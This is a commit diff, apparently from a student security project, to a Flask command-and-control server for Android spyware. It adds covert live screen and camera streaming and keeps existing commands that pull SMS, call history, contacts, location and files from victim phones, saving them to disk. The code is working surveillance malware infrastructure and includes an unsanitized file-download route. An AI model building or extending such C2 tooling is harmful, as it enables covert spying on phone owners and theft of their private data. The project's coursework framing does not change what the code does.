

Before and after one commit to alloygoh/ICT2207-C2, a Flask app: template templates/client.html in a window 1280 px wide. Shown: the whole page at 70% size. Before the commit the page ends 1284 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
feat: add video streaming

```diff
--- a/app.py
+++ b/app.py
@@ -1,11 +1,15 @@
 import os
 
-from flask import Flask, flash, request, redirect, url_for, send_file, render_template, render_template_string
+from flask import (
+    Flask,
+    request,
+    send_file,
+    render_template,
+    render_template_string,
+)
 from datetime import datetime
 from encryption import *
 from utils import print_debug
-from base64 import b64decode
-from binascii import unhexlify
 
 
 PACKET_CALLBACK = 0x1
@@ -15,9 +19,12 @@ PACKET_DATA = 0x3
 PACKET_BIG_DATA = 0x4
 
 EXFIL_DATA_PATH = "data"
+RTSP_URL = "http://10.0.0.1:8888"
 
 app = Flask(__name__)
-app.secret_key = b'\xed\xa1\x80\t\xa5n_\xcd\xb7\xfc\x83\xa20\x13]\x9b\xfe\xf3\xc4\xd3\xa5'
+app.secret_key = (
+    b"\xed\xa1\x80\t\xa5n_\xcd\xb7\xfc\x83\xa20\x13]\x9b\xfe\xf3\xc4\xd3\xa5"
+)
 
 
 class Client:
@@ -31,7 +38,8 @@ class Client:
         # runtime temp data retrieved from the client
         self.file_listing = None
         self.file_listing_directory = None
-        self.stream_on = False
+        self.display_stream_on = False
+        self.camera_stream_on = False
 
     def complete_task(self, data):
 
@@ -41,7 +49,8 @@ class Client:
             data = rc4_decrypt(data, self.key)
             data = data[5:]
             success = self.current_task.callback(
-                client_id, data, self.current_task.args)
+                client_id, data, self.current_task.args
+            )
         else:
             # use RSA for small data
             data = decrypt(data)
@@ -91,15 +100,12 @@ clients: dict[str, Client] = {}
     put(10,CommandHandler::getLocation);
 """
 
-# Callback functions for other functions
-
-
+# Callback functions for client functions
 def save_to_disk(client_id, label, data):
 
     path = os.path.join(EXFIL_DATA_PATH, client_id, label)
     os.makedirs(path, exist_ok=True)
-    file_name = os.path.join(
-        path, datetime.now().strftime("%d-%m-%Y_%H-%M-%S"))
+    file_name = os.path.join(path, datetime.now().strftime("%d-%m-%Y_%H-%M-%S"))
 
     with open(file_name, "wb") as f:
         f.write(data)
@@ -126,13 +132,13 @@ def location_callback(client_id, data):
 def file_listing_callback(client_id, data):
     client = clients.get(client_id)
     data = data.decode().rstrip()
-    client.file_listing = data.split('\n')
+    client.file_listing = data.split("\n")
 
     return 1
 
 
 def file_upload_callback(client_id, data, file_path):
-    file_dir, file_name = file_path.split(',')
+    file_dir, file_name = file_path.split(",")
     path = os.path.join(EXFIL_DATA_PATH, client_id, file_dir)
     os.makedirs(path, exist_ok=True)
     file_name = os.path.join(path, file_name)
@@ -143,30 +149,62 @@ def file_upload_callback(client_id, data, file_path):
     return 1
 
 
+def display_stream_callback(client_id, data):
+    if data.decode() == "OK":
+        client = clients.get(client_id)
+        client.display_stream_on = ~client.display_stream_on
+
+        return 1
+
+    return 0
+
+
+def camera_stream_callback(client_id, data):
+    if data.decode() == "OK":
+        client = clients.get(client_id)
+        client.camera_stream_on = ~client.camera_stream_on
+
+        return 1
+
+    return 0
+
+
+def flip_camera_callback(client_id, data):
+    return data.decode() == "OK"
+
+
+get_file_command = Command(0x0, "Download File", callback_function=file_upload_callback)
+
 # Placeholder for supported commands, to be updated when Spyware features fully implemented
 file_listing_commands = [
     (Command(0x1, "Get Pictures", file_listing_callback), "pictures"),
     (Command(0x1, "Get Downloads", file_listing_callback), "downloads"),
     (Command(0x1, "Get Documents", file_listing_callback), "documents"),
-    (Command(0x1, "Get DCIM", file_listing_callback), "dcim")
+    (Command(0x1, "Get DCIM", file_listing_callback), "dcim"),
 ]
+
+streaming_commands = [
+    Command(0x2, "Start Camera Stream", camera_stream_callback),
+    Command(0x3, "Flip Camera", flip_camera_callback),
+    Command(0x4, "Stop Camera Stream", camera_stream_callback),
+    Command(0x5, "Start Display Stream", display_stream_callback),
+    Command(0x6, "Stop Display Stream", display_stream_callback),
+]
+
+streaming_commands = {command.command_code: command for command in streaming_commands}
 
 sidebar_commands = [
     Command(0x7, "Get SMS", sms_callback),
     Command(0x8, "Get Call History", call_history_callback),
     Command(0x9, "Get Contacts", contact_callback),
-    Command(0xA, "Get Location", location_callback)
+    Command(0xA, "Get Location", location_callback),
 ]
 
-sidebar_commands = {
-    command.command_code: command for command in sidebar_commands}
-
-get_file_command = Command(
-    0x0, "Download File", callback_function=file_upload_callback)
+sidebar_commands = {command.command_code: command for command in sidebar_commands}
 
 
 def add_new_client(client_id, data, addr):
-    print_debug(f'new client id: {client_id}')
+    print_debug(f"new client id: {client_id}")
     global clients
 
     data = decrypt(data)
@@ -192,10 +230,9 @@ def generate_database_listing(client_id):
 
         return database_listing
 
+
 # tentatively receive data from exfil
-
-
-@app.route('/api/update', methods=['POST'])
+@app.route("/api/update", methods=["POST"])
 def recv_data():
 
     request_data = request.data
@@ -204,8 +241,8 @@ def recv_data():
 
     if client_id not in clients:
         client = add_new_client(client_id, res, request.remote_addr)
-        print_debug('Got new client!')
-        return encrypt('success', client.key)
+        print_debug("Got new client!")
+        return encrypt("success", client.key)
 
     else:
         client = clients.get(client_id)
@@ -217,14 +254,18 @@ def recv_data():
         else:
             data = decrypt(res)
             if data[0] == PACKET_CALLBACK:
-                return render_template_string('Client already exists {{ errorCode }}', errorCode='404'), 404
+                return (
+                    render_template_string(
+                        "Client already exists {{ errorCode }}", errorCode="404"
+                    ),
+                    404,
+                )
+
 
 # provides commands for poll
-
-
-@app.route('/api/notification', methods=['GET'])
+@app.route("/api/notification", methods=["GET"])
 def provide_command():
-    client_id = request.args.get('id')
+    client_id = request.args.get("id")
     client = clients.get(client_id)
     print_debug(client_id)
     if client.current_task:
@@ -236,10 +277,10 @@ def provide_command():
         return data
 
     else:
-        return encrypt(b'90', client.key)
+        return encrypt(b"90", client.key)
 
 
-@app.route('/', methods=['GET', 'POST'])
+@app.route("/", methods=["GET", "POST"])
 def control_centre():
 
     task_count = 0
@@ -248,30 +289,32 @@ def control_centre():
         if client.current_task:
             task_count += 1
 
-    return render_template('index.html', clients=clients.items(), task_count=task_count)
+    return render_template("index.html", clients=clients.items(), task_count=task_count)
 
 
-@app.route('/data', methods=['GET'])
+@app.route("/data", methods=["GET"])
 def download_log():
-    log_path = request.args.get('log')
+    log_path = request.args.get("log")
     return send_file(log_path)
 
+
 # used to control individual clients
-@app.route('/client', methods=['GET'])
+@app.route("/client", methods=["GET"])
 def control_client():
 
-    client_id = request.args.get('id')
+    client_id = request.args.get("id")
     client = clients.get(client_id)
-    command_code = request.args.get('cmd')
+    command_code = request.args.get("cmd")
 
     if command_code:
         command_code = int(command_code)
-        command_args = request.args.get('args')
+        command_args = request.args.get("args")
 
         if command_code in sidebar_commands:
             command = sidebar_commands.get(command_code)
-            print_debug(f"Command: {command.command_code}")
-            print_debug(f"Args: {command_args}")
+
+        if command_code in streaming_commands:
+            command = streaming_commands.get(command_code)
 
         # download file from host
         if command_code == 0x0:
@@ -291,4 +334,16 @@ def control_client():
 
     database_listing = generate_database_listing(client_id)
 
-    return render_template('client.html', client_id=client_id, ip_address=client.addr, file_listing_commands=file_listing_commands, sidebar_commands=sidebar_commands.items(), file_listing=client.file_listing, file_listing_directory=client.file_listing_directory, database_listing=database_listing)
+    return render_template(
+        "client.html",
+        client_id=client_id,
+        ip_address=client.addr,
+        file_listing_commands=file_listing_commands,
+        sidebar_commands=sidebar_commands.items(),
+        display_stream_on=client.display_stream_on,
+        rtsp_url=RTSP_URL,
+        camera_stream_on=client.display_stream_on,
+        file_listing=client.file_listing,
+        file_listing_directory=client.file_listing_directory,
+        database_listing=database_listing,
+    )
--- a/templates/client.html
+++ b/templates/client.html
@@ -50,17 +50,68 @@
                 <div class="container-fluid px-4">
                     <h1 class="mt-4">{{ client_id }} (IP: {{ ip_address }})</h1>
                     <div class="row">
-                        <div class="col-xl-4">
+                        <div class="col-xl-6">
                             <div class="card mb-4" style="height:1080px;">
                                 <div class="card-header">
-                                    <i class="fas fa-camera me-1"></i>
-                                    Livestream
+                                    <div class="row">
+                                        <div class="col-xl-11">
+                                            <i class="fas fa-mobile me-1"></i>
+                                            Screen Live Feed
+                                        </div>
+                                        <div class="col-xl-1">
+                                            {% if display_stream_on %}
+                                            <a class="btn btn-danger" href="client?id={{ client_id }}&cmd=6">OFF</a>
+                                            {% else %}
+                                            <a class="btn btn-success" href="client?id={{ client_id }}&cmd=5">ON</a>
+                                            {% endif %}
+                                        </div>
+                                    </div>
                                 </div>
                                 <div class="card-body">
+                                    {% if display_stream_on %}
+                                    <iframe src="{{ rtsp_url }}/{{client_id}}1" scrolling="no"></iframe>
+                                    {% else %}
+                                    Screen live feed not started
+                                    {% endif %}
                                 </div>
                             </div>
                         </div>
-                        <div class="col-xl-8">
+                        <div class="col-xl-6">
+                            <div class="card mb-4" style="height:1080px;">
+                                <div class="card-header">
+                                    <div class="row">
+                                        <div class="col-xl-10">
+                                            <i class="fas fa-camera me-1"></i>
+                                            Camera Live Feed
+                                        </div>
+                                        {% if camera_stream_on %}
+                                        <div class="col-xl-1">
+                                            <a class="btn btn-dark" href="client?id={{ client_id }}&cmd=3">FLIP</a>
+                                        </div>
+                                        <div class="col-xl-1">
+                                            <a class="btn btn-danger" href="client?id={{ client_id }}&cmd=4">OFF</a>
+                                        </div>
+                                        {% else %}
+                                        <div class="col-xl-1"></div>
+                                        <div class="col-xl-1">
+                                            <a class="btn btn-success" href="client?id={{ client_id }}&cmd=2">ON</a>
+                                        </div>
+                                        {% endif %}
+
+                                    </div>
+                                </div>
+                                <div class="card-body">
+                                    {% if camera_stream_on %}
+                                    <iframe src="{{ rtsp_url }}/{{client_id}}" scrolling="no"></iframe>
+                                    {% else %}
+                                    Camera live feed not started
+                                    {% endif %}
+                                </div>
+                            </div>
+                        </div>
+                    </div>
+                    <div class="row">
+                        <div class="col-xl-6">
                             <div class="card mb-4" style="height:525px;">
                                 <div class="card-header">
                                     <i class="fas fa-file me-1"></i>
@@ -80,6 +131,8 @@
                                     {% endif %}
                                 </div>
                             </div>
+                        </div>
+                        <div class="col-xl-6">
                             <div class="card mb-4" style="height:525px;">
                                 <div class="card-header">
                                     <i class="fas fa-database me-1"></i>
@@ -103,7 +156,8 @@
                                                 <td>{{ entry[1] }}</td>
                                                 <td>{{ entry[2] }}</td>
                                                 <td><a type="button" class="btn btn-primary"
-                                                        href="data?log={{ entry[3] }}"><i class="fa fa-download"></i></a></td>
+                                                        href="data?log={{ entry[3] }}"><i
+                                                            class="fa fa-download"></i></a></td>
                                             </tr>
                                             {% endfor %}
                                         </tbody>
```
